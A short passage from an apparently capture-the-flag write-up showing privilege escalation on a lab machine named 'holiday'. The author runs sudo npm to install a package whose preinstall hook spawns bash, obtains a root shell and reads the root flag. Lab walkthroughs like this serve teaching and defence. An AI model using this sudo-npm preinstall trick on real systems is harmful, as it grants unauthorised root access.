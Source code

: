 

Now I'll just give it a run:



    algernon@holiday:/dev/shm$ sudo npm i 0xdf/ --unsafe

    > root_please@1.0.0 preinstall /dev/shm/node_modules/.staging/root_please-ea155d5e
    > /bin/bash

    root@holiday:/dev/shm/node_modules/.staging/root_please-ea155d5e# id
    uid=0(root) gid=0(root) groups=0(root)



From there I can grab `root.txt`:



    root@holiday:/root# cat root.txt 
    a844cb50...







